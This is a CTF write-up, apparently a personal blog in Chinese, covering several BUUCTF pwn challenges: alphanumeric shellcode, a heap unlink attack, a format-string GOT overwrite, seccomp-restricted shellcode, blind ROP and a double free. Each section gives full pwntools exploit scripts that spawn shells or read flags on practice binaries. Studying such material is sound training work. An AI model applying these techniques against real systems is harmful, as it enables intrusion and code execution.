

[TOC]

# 0x50.mrctf2020_shellcode_revenge（可见字符shellcode）

因为call的缘故，没办法f5.

```sh
gwt@ubuntu:~/Desktop$ checksec mrctf2020_shellcode_revenge 
[*] '/home/gwt/Desktop/mrctf2020_shellcode_revenge'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
    RWX:      Has RWX segments

```

大致流程:

```python
print("Show me your magic!\n");
buf = read(0x400)
if(!(0x60<input[i]<0x7A || 0x2F<input[i]<ox5A)
	print("I Can't Read This!")
buf()
```

于是：

```sh
git clone https://github.com/TaQini/alpha3.git
cd alpha3
//需要先生成普通的shellcode
vim sc.py
```

sc.py中写：

```python
from pwn import *
context.arch='amd64'#这里用64位平台做示例
sc = shellcraft.sh()#这里用shell做示例
print asm(sc)
```

之后写到shellcode中：`python sc.py > shellcode`

然后：

```sh
gwt@ubuntu:~/alpha3$ python ALPHA3.py x64 ascii mixedcase rax --input="../shellcode"
Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N00
```

exp:

```python
from pwn import *
# context(arch='amd64',os='linux')

io = process("mrctf2020_shellcode_revenge")
# io = remote("node4.buuoj.cn",29596)
payload = "Ph0666TY1131Xh333311k13XjiV11Hc1ZXYf1TqIHf9kDqW02DqX0D1Hu3M2G0Z2o4H0u0P160Z0g7O0Z0C100y5O3G020B2n060N4q0n2t0B0001010H3S2y0Y0O0n0z01340d2F4y8P115l1n0J0h0a071N"

io.recv()
io.send(payload)

io.interactive()
```

# 0x51.hitcontraining_unlink（unlink）

没开PIE

```sh
gwt@ubuntu:~/Desktop$ checksec bamboobox 
[*] '/home/gwt/Desktop/bamboobox'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

edit中对输入的长度没有做检查：

```c
unsigned __int64 change_item()
{
  int v1; // [rsp+4h] [rbp-2Ch]
  int v2; // [rsp+8h] [rbp-28h]
  char buf[16]; // [rsp+10h] [rbp-20h] BYREF
  char nptr[8]; // [rsp+20h] [rbp-10h] BYREF
  unsigned __int64 v5; // [rsp+28h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  if ( num )
  {
    printf("Please enter the index of item:");
    read(0, buf, 8uLL);
    v1 = atoi(buf);
    if ( *&itemlist[4 * v1 + 2] )
    {
      printf("Please enter the length of item name:");
      read(0, nptr, 8uLL);
      v2 = atoi(nptr);
      printf("Please enter the new name of the item:");
      *(*&itemlist[4 * v1 + 2] + read(0, *&itemlist[4 * v1 + 2], v2)) = 0;//这里直接是按照输入的来读取
    }
    else
    {
      puts("invaild index");
    }
  }
  else
  {
    puts("No item in the box");
  }
  return __readfsqword(0x28u) ^ v5;
}
```

delete没有问题

## 解法一（对buu无用）

fastbin attack

```python
add(0x21,'AAAAA')#0  
add(0x18,'BBBBB')#1  
add(0x18,'CCCC') #2
#为了溢出修改1
delete(2)
delete(1) #fastbin -> 1 -> 2

payload = 'A'*0x28+p64(0x21) #修改1的fd指针，指向main开始时申请的内存地址
edit(0,len(payload),payload) 
add(0x18,'AAA')   
    
backdoor = 0x0400D49 
add(0x18,p64(0)+p64(backdoor))  #将其第二个指针修改为backdoor的地址.
p.sendlineafter('Your choice:','5')
```

## 解法二

unlink

>   ### 条件
>
>   1.  UAF ，可修改 free 状态下 smallbin 或是 unsorted bin 的 fd 和 bk 指针
>   2.  已知位置存在一个指针指向可进行 UAF 的 chunk
>
>   ### 效果
>
>   使得已指向 UAF chunk 的指针 ptr 变为 ptr - 0x18
>
>   ### 思路 
>
>   设指向可 UAF chunk 的指针的地址为 ptr
>
>   1.  修改 fd 为 ptr - 0x18
>   2.  修改 bk 为 ptr - 0x10
>   3.  触发 unlink
>
>   ptr 处的指针会变为 ptr - 0x18。

```python
#coding:utf-8
from pwn import *
context.log_level = 'debug'
# p = process('./bamboobox')
p = remote("node4.buuoj.cn",26791)
elf = ELF('./bamboobox')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(size,content):
    p.sendlineafter('Your choice:','2')
    p.sendlineafter('name:',str(size))
    p.sendafter('item:',content)


def show():
    p.sendlineafter('Your choice:','1')


def edit(idx,size,content):
    p.sendlineafter('Your choice:','3')
    p.sendafter('item:',str(idx))
    p.sendlineafter('name:',str(size))
    p.sendafter('item:',content)


def delete(idx):
    p.sendlineafter('Your choice:','4')
    p.sendafter('item:',str(idx))


itemlist0_ptr = 0x6020C0+8

add(0x40,'A' * 8)#0
add(0x80,'B' * 8)#1
add(0x80,'C' * 8)#2


#这里我们绕过第一个检查 (检查p和其前后的chunk是否构成双向链表)
fake_chunk =  p64(0) + p64(0x41)  #fake_chunk header
fake_chunk += p64(itemlist0_ptr-0x18) + p64(itemlist0_ptr-0x10) #fake_chunk fd  bk
fake_chunk += 'C'*0x20
fake_chunk += p64(0x40) # 1的presize 
fake_chunk += p64(0x90) # 1的size
edit(0,0x80,fake_chunk)

'''
这里用p指代itemlist0_ptr
FD = p -> fd = p - 0x18
BK = p -> bk = p - 0x10

FD -> bk = p
BK -> fd = p
#通过检查
FD -> bk = BK 相当于  *(p) = p-0x10
BK -> fd = FD 相当于  *(p) = p-0x18
我们把p的值改为了p的地址-0x18,使得p的值不再是堆的地址，而是itemlist附近的地址。
'''
delete(1)  #前向合并，合并0中的fake_chunk  放入 unsorted bin 中 ,同时 itemlist0_ptr = &itemlist0_ptr -0x18

payload = p64(0) * 2
payload += p64(0x40) + p64(elf.got['atoi']) #覆盖的itemlist[0]->ptr 为atoi_got
edit(0,0x80,payload)
show()
p.recvuntil('0 : ')
atoi = u64(p.recv(6).ljust(8,'\x00'))
libc_base = atoi - libc.symbols['atoi']
system = libc_base + libc.symbols['system']
edit(0,8,p64(system))
p.sendlineafter('Your choice:','/bin/sh\x00')

p.interactive()
```

上面exp写的很详细了。


>   https://www.cnblogs.com/Rookle/p/12942229.html


# 0x52.inndy_echo(fmt_str)

很明显的格式化字符串

```sh
gwt@ubuntu:~/Desktop$ ./echo 
aaaa %p %p %p %p %p %p %p %p %p 
aaaa 0x100 0xf7f695a0 (nil) 0xf7faf000 0x80482e7 0xf63d4e2e 0x61616161 0x20702520 0x25207025
```

第七个

```python
#coding:utf-8
from pwn import *
# io = process("./echo")
io = remote("node4.buuoj.cn",29402)
elf=ELF("./echo")

printf_got=elf.got['printf']
system_plt=elf.plt['system']

payload=fmtstr_payload(7,{printf_got:system_plt})
io.sendline(payload)
io.sendline("/bin/sh\x00")
io.interactive()
```

# 0x53.[极客大挑战 2019]Not Bad(ret2shellcode)

有0x18的溢出，buf只有0x20大小不够写栈迁移的rop。

程序在一开始：`mmap(0x123000, 0x1000uLL, 6, 34, -1, 0LL);`

所以接下来：在这里写shellcode，跳过来执行

查看系统调用：

```sh
yutao@ubuntu:~/Desktop$ seccomp-tools dump ./bad
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0009
 0006: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0009
 0007: 0x15 0x01 0x00 0x00000002  if (A == open) goto 0009
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

```python

orw_payload=shellcraft.open('./flag')           #打开根目录下的flag文件
orw_payload+=shellcraft.read(3,mmap,0x50)       #读取文件标识符是3的文件0x50个字节存放到mmap分配的地址空间里
orw_payload+=shellcraft.write(1,mmap,0x50)      #将mmap地址上的内容输出0x50个字节
```

exp:

```python
from pwn import *
context(arch='amd64')
# io = process("./bad")
io = remote("node4.buuoj.cn",26570)
mmap=0x123000
jmp_rsp=0x400a01

payload1=asm(shellcraft.read(0,mmap,0x100))+asm("mov rax,0x123000; jmp rax")
payload1=payload1.ljust(0x28,'a')
payload1+=p64(jmp_rsp)+asm("sub rsp,0x30; jmp rsp")

payload=shellcraft.open("./flag")
payload+=shellcraft.read(3,mmap+0x100,100)
payload+=shellcraft.write(1,mmap+0x100,100)
payload=asm(payload)

io.recv()
io.sendline(payload1)
io.sendline(payload)
io.interactive()
```

其中`p64(jmp_rsp)+asm("sub rsp,0x30; jmp rsp")`，首先将rip指到栈上，然后后面写的jmp将rip指到我们写的shellcode上

# 0x54.axb_2019_brop64（BROP）

虽然给了elf，但这题其实是brop的题

## 解法一：ret2libc

```python
#coding:utf-8
from pwn import *
context(log_level='debug')
# io = process("./axb_2019_brop64")
io = remote("node4.buuoj.cn",29353)
elf=ELF("./axb_2019_brop64")
# libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF("./libc-x64-2.23.so")
puts_got=elf.got['puts']
puts_plt=elf.plt['puts']
pop_rdi_ret = 0x0000000000400963
payload = 'a'*(0xd0+8) + p64(pop_rdi_ret) +p64(puts_got)+p64(puts_plt)+p64(elf.sym['main'])
io.recv()
io.send(payload)
puts_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\0'))
print hex(puts_addr)
base = puts_addr - libc.sym['puts']
sys_addr = base + libc.sym['system']
bin_sh =  base + libc.search('/bin/sh').next()
payload = 'a'*(0xd0+8) + p64(pop_rdi_ret) +p64(bin_sh)+p64(sys_addr)+p64(elf.sym['main'])
io.sendline(payload)
io.interactive()
```


## 解法二：brop

>   https://www.anquanke.com/post/id/196722
>
>   https://wooyun.js.org/drops/Blind%20Return%20Oriented%20Programming%20(BROP)%20Attack%20-%20%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86.html
>
>   http://showlinkroom.me/2017/11/09/pwn%E4%B9%8BBROP/


输入%s%p等测试发现不是fmtstr的洞：

```sh
gwt@ubuntu:~/Desktop$ cyclic 400
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad
gwt@ubuntu:~/Desktop$ ./axb_2019_brop64 
Hello,I am a computer Repeater updated.
After a lot of machine learning,I know that the essence of man is a reread machine!
So I'll answer whatever you say!
Please tell me:aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad
Repeater:aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaad
@Segmentation fault (core dumped)
```

存在溢出


### 确定偏移量

```python
# coding=utf-8
from pwn import *
def Force_find_padding():
    padding_length=0
    while True:
        try:
            padding_length=padding_length+1
            sh = process("./axb_2019_brop64")
            sh.recvuntil("Please tell me:")
            sh.send('A' * padding_length)
            if "Goodbye!" not in sh.recvall():
                raise "Programe not exit normally!"
            sh.close()
        except:
            log.success("The true padding length is "+str(padding_length-1))
            return padding_length
    log.error("We don't find true padding length!")

padding_length=0
if padding_length is 0:
    padding_length=Force_find_padding()
```

```sh
.............
[+] Receiving all data: Done (237B)
[*] Process './axb_2019_brop64' stopped with exit code 0 (pid 23755)
[+] Starting local process './axb_2019_brop64': pid 23758
[+] Receiving all data: Done (228B)
[*] Process './axb_2019_brop64' stopped with exit code -11 (SIGSEGV) (pid 23758)
[+] The true padding length is 216
gwt@ubuntu:~/Desktop$ 
```

### 寻找`stop gadget`

此处我们希望我们能够爆破出main函数的首地址，进而直接让程序回到main函数进行执行。首先此处我们可以先泄露原来的返回地址，进而缩小爆破范围。

```python
old_return_addr=null
if old_return_addr is null:
    sh.recvuntil("Please tell me:")
    sh.send('A' * padding_length)
    sh.recvuntil('A' * padding_length)
    old_return_addr=u64(sh.recvuntil('Goodbye!').strip('Goodbye!').ljust(8,'x00'))
    log.info('The old return address is '+ hex(old_return_addr))
# [*] The old return address is 0x400834
```

接下来爆破脚本(0x0000-0xffff)：

这里已经知道结果所以为了方便从0x7d0开始搞的

```python
def Find_stop_gadget(old_return_addr,padding_length):
    maybe_low_byte=0x07d0
    while True:
        try:
            sh = process("./axb_2019_brop64")
            sh.recvuntil("Please tell me:")
            sh.send('A' * padding_length + p16(maybe_low_byte))
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if "Hello" in sh.recvall(timeout=1):
                log.success("We found a stop gadget is " + hex(old_return_addr+maybe_low_byte))
                return (old_return_addr+padding_length)
            maybe_low_byte=maybe_low_byte+1
        except:
            pass
            sh.close()
Find_stop_gadget(old_return_addr,padding_length)
```

```sh
[+] Starting local process './axb_2019_brop64': pid 32243
[+] Receiving all data: Done (400B)
[*] Stopped process './axb_2019_brop64' (pid 32243)
[+] We found a stop gadget is 0x4007d6
gwt@ubuntu:~/Desktop$ 
```

### 寻找`BROP gadget`

根据`__libc_csu_init`，利用的payload：

```python
payload  = 'A' * padding_length 
payload += p64(libc_csu_init_address) 
payload += p64(0) * 6 
payload += p64(stop_gadget) + p64(0) * 10
```

如果`libc_csu_init_address`是pop rbx，那么程序会从stop_gadget重新执行。

```python
def Find_brop_gadget(libc_csu_init_address_maybe,padding_length,stop_gadget):
    maybe_low_byte=0x0000
    while True:
        try:
            sh = process("./axb_2019_brop64")
            sh.recvuntil("Please tell me:")
            payload  = 'A' * padding_length 
            payload += p64(libc_csu_init_address_maybe+maybe_low_byte) 
            payload += p64(0) * 6 
            payload += p64(stop_gadget) + p64(0) * 10
            sh.send(payload)
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if "Hello" in sh.recvall(timeout=1):
                log.success(
                    "We found a brop gadget is " + hex(
                        libc_csu_init_address_maybe+maybe_low_byte
                    )
                )
                return (libc_csu_init_address_maybe+maybe_low_byte)
            maybe_low_byte=maybe_low_byte+1
        except:
            pass
            sh.close()
brop_gadget=Find_brop_gadget(old_return_addr & 0xFFF000,padding_length,stop_gadget)
#0x40095A
```

### 寻找puts@plt


```python
def Find_func_plt(func_plt_maybe,padding_length,stop_gadget,brop_gadget):
    maybe_low_byte=0x0600
    while True:
        try:
            sh = process("./axb_2019_brop64")
            sh.recvuntil("Please tell me:")
            payload  = 'A' * padding_length 
            payload += p64(brop_gadget+9) # pop rdi;ret;
            payload += p64(0x400000)
            payload += p64(func_plt_maybe+maybe_low_byte)
            payload += p64(stop_gadget)
            sh.send(payload)
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if "ELF" in sh.recvall(timeout=1):
                log.success(
                    "We found a function plt address is " + hex(func_plt_maybe+maybe_low_byte)
                )
                return (func_plt_maybe+maybe_low_byte)
            maybe_low_byte=maybe_low_byte+1
        except:
            pass
            sh.close()
func_plt=Find_func_plt(old_return_addr & 0xFFF000,padding_length,stop_gadget,brop_gadget)
# func_plt=0x400635
```


### 利用puts@plt，Dump源文件

我dump不出来。。。

```python
def Dump_file(func_plt,padding_length,stop_gadget,brop_gadget):
    process_old_had_received_length=0
    process_now_had_received_length=0
    file_content=""
    while True:
        try:
            sh = process("./axb_2019_brop64")
            while True:
                sh.recvuntil("Please tell me:")
                payload  = 'A' * (padding_length - len('Begin_leak----->'))
                payload += 'Begin_leak----->'
                payload += p64(brop_gadget+9) # pop rdi;ret;
                payload += p64(0x400000+process_now_had_received_length)
                payload += p64(func_plt)
                payload += p64(stop_gadget)
                sh.send(payload)
                sh.recvuntil('Begin_leak----->' + p64(brop_gadget+9).strip('x00'))
                received_data = sh.recvuntil('x0AHello')[:-6]
                if len(received_data) == 0 :
                    file_content += 'x00'
                    process_now_had_received_length += 1
                else :
                    file_content += received_data
                    process_now_had_received_length += len(received_data)
        except:
            if process_now_had_received_length == process_old_had_received_length :
                log.info('We get ' + str(process_old_had_received_length) +' byte file!')
                with open('axb_2019_brop64_dump','wb') as fout:
                    fout.write(file_content)
                return
            process_old_had_received_length = process_now_had_received_length
            sh.close()
            pass
```

### EXP

完整exp：

```python
from pwn import *
import binascii
import sys
context.log_level='debug'
context.arch='amd64'

libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")

def get_sh():
    if args['REMOTE']:
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./axb_2019_brop64")

def Force_find_padding():
    padding_length=0
    while True:
        try:
            padding_length=padding_length+1
            sh = get_sh()
            sh.recvuntil("Please tell me:")
            sh.send('A' * padding_length)
            if "Goodbye!" not in sh.recvall():
                raise "Programe not exit normally!"
            sh.close()
        except:
            log.success("The true padding length is "+str(padding_length-1))
            return padding_length
    log.error("We don't find true padding length!")

def Find_stop_gadget(old_return_addr,padding_length):
    maybe_low_byte=0x0000
    while True:
        try:
            sh = get_sh()
            sh.recvuntil("Please tell me:")
            sh.send('A' * padding_length + p16(maybe_low_byte))
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if "Hello" in sh.recvall(timeout=1):
                log.success("We found a stop gadget is " + hex(old_return_addr+maybe_low_byte))
                return (old_return_addr+padding_length)
            maybe_low_byte=maybe_low_byte+1
        except:
            pass
            sh.close()

def Find_brop_gadget(libc_csu_init_address_maybe,padding_length,stop_gadget):
    maybe_low_byte=0x0000
    while True:
        try:
            sh = get_sh()
            sh.recvuntil("Please tell me:")
            payload  = 'A' * padding_length 
            payload += p64(libc_csu_init_address_maybe+maybe_low_byte) 
            payload += p64(0) * 6 
            payload += p64(stop_gadget) + p64(0) * 10
            sh.send(payload)
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if "Hello" in sh.recvall(timeout=1):
                log.success(
                    "We found a brop gadget is " + hex(
                        libc_csu_init_address_maybe+maybe_low_byte
                    )
                )
                return (libc_csu_init_address_maybe+maybe_low_byte)
            maybe_low_byte=maybe_low_byte+1
        except:
            pass
            sh.close()

def Find_func_plt(func_plt_maybe,padding_length,stop_gadget,brop_gadget):
    maybe_low_byte=0x0600
    while True:
        try:
            sh = get_sh()
            sh.recvuntil("Please tell me:")
            payload  = 'A' * padding_length 
            payload += p64(brop_gadget+9) # pop rdi;ret;
            payload += p64(0x400000)
            payload += p64(func_plt_maybe+maybe_low_byte)
            payload += p64(stop_gadget)
            sh.send(payload)
            if maybe_low_byte > 0xFFFF:
                log.error("All low byte is wrong!")
            if "ELF" in sh.recvall(timeout=1):
                log.success(
                    "We found a function plt address is " + hex(func_plt_maybe+maybe_low_byte)
                )
                return (func_plt_maybe+maybe_low_byte)
            maybe_low_byte=maybe_low_byte+1
        except:
            pass
            sh.close()

def Dump_file(func_plt,padding_length,stop_gadget,brop_gadget):
    process_old_had_received_length=0
    process_now_had_received_length=0
    file_content=""
    while True:
        try:
            sh = get_sh()
            while True:
                sh.recvuntil("Please tell me:")
                payload  = 'A' * (padding_length - len('Begin_leak----->'))
                payload += 'Begin_leak----->'
                payload += p64(brop_gadget+9) # pop rdi;ret;
                payload += p64(0x400000+process_now_had_received_length)
                payload += p64(func_plt)
                payload += p64(stop_gadget)
                sh.send(payload)
                sh.recvuntil('Begin_leak----->' + p64(brop_gadget+9).strip('x00'))
                received_data = sh.recvuntil('x0AHello')[:-6]
                if len(received_data) == 0 :
                    file_content += 'x00'
                    process_now_had_received_length += 1
                else :
                    file_content += received_data
                    process_now_had_received_length += len(received_data)
        except:
            if process_now_had_received_length == process_old_had_received_length :
                log.info('We get ' + str(process_old_had_received_length) +' byte file!')
                with open('axb_2019_brop64_dump','wb') as fout:
                    fout.write(file_content)
                return
            process_old_had_received_length = process_now_had_received_length
            sh.close()
            pass


padding_length=216
if padding_length is null:
    padding_length=Force_find_padding()

old_return_addr=0x400834
if old_return_addr is null:
    sh.recvuntil("Please tell me:")
    sh.send('A' * padding_length)
    sh.recvuntil('A' * padding_length)
    old_return_addr=u64(sh.recvuntil('Goodbye!').strip('Goodbye!').ljust(8,'x00'))
    log.info('The old return address is '+ hex(old_return_addr))

stop_gadget=0x4007D6
if stop_gadget is null:
    stop_gadget=Find_stop_gadget(old_return_addr & 0xFFF000,padding_length)

brop_gadget=0x40095A
if brop_gadget is null:
    brop_gadget=Find_brop_gadget(old_return_addr & 0xFFF000,padding_length,stop_gadget)

func_plt=0x400635
if func_plt is null:
    func_plt=Find_func_plt(old_return_addr & 0xFFF000,padding_length,stop_gadget,brop_gadget)

is_dumped=True
if is_dumped is not True:
    Dump_file(func_plt,padding_length,stop_gadget,brop_gadget)
    is_dumped=True

sh = get_sh()
puts_got_addr=0x601018
puts_plt_addr=0x400640

payload  = 'A' * (padding_length - len('Begin_leak----->'))
payload += 'Begin_leak----->'
payload += p64(brop_gadget+9) # pop rdi;ret;
payload += p64(puts_got_addr)
payload += p64(puts_plt_addr)
payload += p64(stop_gadget)
sh.recvuntil("Please tell me:")
sh.send(payload)
sh.recvuntil('Begin_leak----->' + p64(brop_gadget+9).strip('x00'))
puts_addr = u64(sh.recvuntil('x0AHello')[:-6].ljust(8,'x00'))
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
bin_sh_addr = libc_base + libc.search('/bin/sh').next()
payload  = 'A' * padding_length
payload += p64(brop_gadget+9) # pop rdi;ret;
payload += p64(bin_sh_addr)
payload += p64(system_addr)
payload += p64(stop_gadget)
sh.recvuntil("Please tell me:")
sh.send(payload)
sh.recv()
sh.interactive()
sh.close()
```

# 0x55.gyctf_2020_some_thing_exceting

```c
unsigned __int64 sub_400896()
{
  FILE *fp; // [rsp+0h] [rbp-10h]
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  fp = fopen("/flag", "r");
  if ( !fp )
  {
    puts("Emmmmmm!Maybe you want Fool me!");
    exit(0);
  }
  byte_6020A0 = 0x60;
  fgets(s, 0x2D, fp);
  return __readfsqword(0x28u) ^ v2;
}
```

在s的地方写了flag：



double free ，将flag的地址写到第一个free的fd指针，之后show的时候就会将flag打印出来。

```python
from pwn import *
#context.log_level="debug"

p=remote('node4.buuoj.cn',25003)
# p=process('./gyctf_2020_some_thing_exceting')
elf=ELF('./gyctf_2020_some_thing_exceting')
def add(size_1,size_2,content_1='1',content_2='1'):
	p.recvuntil('to do :')
	p.sendline('1')
	p.recvuntil("ba's length : ")
	p.sendline(str(size_1))
	p.recvuntil("ba : ")
	p.send(content_1)
	p.recvuntil("na's length : ")
	p.sendline(str(size_2))
	p.recvuntil("na : ")
	p.send(content_2)

def show(index):
	p.recvuntil('to do :')
	p.sendline('4')
	p.recvuntil('project ID : ')
	p.sendline(str(index))


def free(index):
	p.recvuntil('to do :')
	p.sendline('3')
	p.recvuntil('Banana ID : ')
	p.sendline(str(index))

add(0x50,0x50,'aaaa','bbbb')#0
add(0x50,0x50,'aaaa','bbbb')#0
free(0)
free(1)
free(0)
backdoor = 0x6020a0
payload = p64(backdoor-8)
add(0x50,0x50, payload,payload)#2
# gdb.attach(p)
add(0x50,0x50)#3
add(0x50,0x30)#4
# gdb.attach(p)
show(4)

p.interactive()
```

